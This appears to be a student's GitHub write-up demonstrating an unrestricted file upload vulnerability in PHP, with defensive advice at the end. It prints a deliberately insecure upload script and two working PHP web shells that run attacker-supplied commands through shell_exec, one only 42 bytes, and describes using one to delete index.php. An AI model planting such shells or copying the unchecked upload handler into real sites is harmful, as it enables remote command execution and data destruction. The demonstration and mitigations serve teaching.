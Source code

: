 # Unrestricted-file-Upload

### What is unrestricted file upload vulnerability?
When an attacker could send a form data POST request with a typical filename or Multipurpose Internet Mail Extensions(MIME) and can cause Arbitrary Code Execution(ACE). 
### What did i do?
I first made the script to upload the file(which by the way is very insecure), here is the code:
```
<?php
$t_file=basename($_FILES['thefile']['name']);
if (move_uploaded_file($_FILES['thefile']['tmp_name'], $t_file)) {
	move_uploaded_file($_FILES['thefile']['tmp_name'], $t_file);
	echo "File '".$t_file."' uploaded successfully";
}else{
	echo "Something went wrong, try agains";
}
?>
```
I made 2 programs each demonstrating an aspect of file upload vulnerability, The first one, "hack.php" is a simple php script with an input, it executes as shell whatever you give as input.
here is the code
```
<?php
$shell=shell_exec('dir C:\\');
if ($_POST['exploit']) {
 $shell=shell_exec($_POST['exploit']);
   echo "<pre>$shell</pre>";
 }
 ?>
```
As you see i used shell exec which can invoke a command via shell and return the result.
Let's first unsecurely upload our file
![](/ìmg/hack2.jpg)<br>
![](/ìmg/hack1.png)<br>
Let's first a simple command like 'dir':
![](/ìmg/hack3.jpg)<br>
here is the output we get:
![](/ìmg/hack4.png)
Then let's execute a nasty command like del which will delete a file, for my case i'm going to delete the "index.php" file which is the main file.
The "index.php" file will be automatically deleted and the website will encounter problems.
This can be very scary as someone might be controlling your computer from within your website itself.<br>
Then i made another script which takes url parameters to execute a command via shell and return the result.<br>
Here is it's code:
```
<?php
echo shell_exec($_GET['shell'])
?>
```
This one is more scary than the first because it doesn't need visible immediate contact to execute itself, when programmers are working on a large code-base with thousands of files this one gets scary pretty fast when you see it's size"only 42 bytes".
### what can i do to make my website more secure?
-Well, use python, i mean seriously, use frameworks such as flask or django which won't just execute a file uploaded to the server but only follow predefined urls
- Scannning incoming urls
- Always use a filter "like getimagesize or pathinfo($file,PATHINFO_EXTENSION)" to check if the uploaded files are really what you want them to be 
- Limit file size, some uploads take a lot of space...(for example a script that builds an uploaded virus with gcc and so on...)
- Only allow authorized and authenticated users to use the feature. 
- Serve fetched files from your application rather than directly via the web server.
- Store files in a non-public accessibly directory if you can.
- Write to the file when you store it to include a header that makes it non-executable.

This is it, Happy coding
Made by `Shadowblade` during `GCI 2019` Open source
